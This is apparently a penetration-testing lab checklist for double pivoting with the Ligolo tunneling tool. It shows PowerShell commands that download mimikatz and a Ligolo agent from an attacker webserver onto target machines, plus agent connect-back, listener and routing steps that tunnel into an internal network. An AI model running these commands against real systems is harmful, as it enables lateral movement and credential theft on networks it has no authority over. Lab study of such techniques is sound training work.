 - [ ] Download file(s) from webserver on the Target Machine
```
powershell iwr -uri http://10.10.yyy.254:8080/mimikatz.exe -Outfile C:\Tools\mimikatz.exe
```

# Double Pivot

- [ ] Ensure you are in the session of the Initial Pivot on your Kali Machine
```
session
```
- Use up/down arrows to move and enter to select

- [ ] On your Kali Machine, create a listener on the Initial Pivot session to send the new traffic to the Proxy server to establish a tunnel
```
listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
```

- [ ] Ensure listener is added on your Ligolo server
```
listener_list
```

- [ ] Download the ligolo agent onto the Double Pivot Target Machine through the Initial Pivot Machine
```
powershell iwr -uri http://10.10.yyy.254:8080/agent.exe -Outfile C:\Tools\agent.exe
```

- [ ] On the Double Pivot Target Machine, connect to the Proxy Server though the agent listener on the Initial Pivot Machine
```
./agent.exe -connect 10.10.yyy.254:11601 -ignore-cert
```
- On your server it should show
	- `INFO[2514] Agent joined.`

- [ ] Switch to the session of the Double Pivot on your Kali Machine
```
session
```
- Use up/down arrows to move and enter to select

- [ ] In the session, on your Kali Machine, get adapter information about the agent that resides in the Double Pivot Target Machine
```
ifconfig
```

- [ ] Add the new internal network to routing table on your Kali Machine
```
sudo ip route add 10.20.yyy.0/24 dev ligolo
```
- Adds internal network to routing table via the `ligolo` interface
- To delete use `del` instead of `add`

- [ ] Confirm that the route is added on your Kali Machine
```
ip route list
```
